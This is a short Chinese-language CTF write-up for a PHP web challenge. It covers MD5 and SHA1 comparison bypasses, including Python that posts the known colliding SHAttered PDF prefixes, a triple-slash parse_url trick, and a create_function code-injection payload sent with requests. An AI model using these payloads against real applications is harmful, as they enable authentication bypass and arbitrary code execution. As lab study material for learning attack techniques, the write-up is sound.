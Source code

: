 - # 思路
	- F12, [MD5绕过]([[CTF/MD5]]), SHA1绕过, parse_url绕过
- # SHA1绕过
	- 使用两个不同但是SHA1相同的字符串即可
	- ```python
	  def urldecode_to_bytes(s):
	      b = b""
	      while s:
	          if s[0] != "%":
	              c, s = s[:1], s[1:]
	              b += c.encode()
	          else:
	              c, s = s[:3], s[3:]
	              b += bytes([int(c[1:], 16), ])
	      return b
	  array1=urldecode_to_bytes("%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1")
	  array2=urldecode_to_bytes("%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1")
	  
	  r = requests.post(url, 
	  data={
	      "array1": array1,
	      "array2": array2
	  })
	  print(r.text)
	  ```
- # parse_url绕过
	- [参考](((645dbc96-bb3a-4052-8764-5d425ac10179)))
	- parse_url在解析形如`http://xxx.com///index.php?id=1`的URL的时候会出错
	- payload: ``http://node2.anna.nssctf.cn:28337///level_level_4.php?NI_SA_=txw4ever``
- # 特殊的动态函数调用
	- fuzz发现`\create_function`字符串可以和`create_function`字符串一样调用`create_function`函数
	- payload
		- ```python
		  r = requests.get(url, 
		  params={
		      "a": "\\create_function",
		      "b": "}echo 114514;//"
		  })
		  print(r.text)
		  ```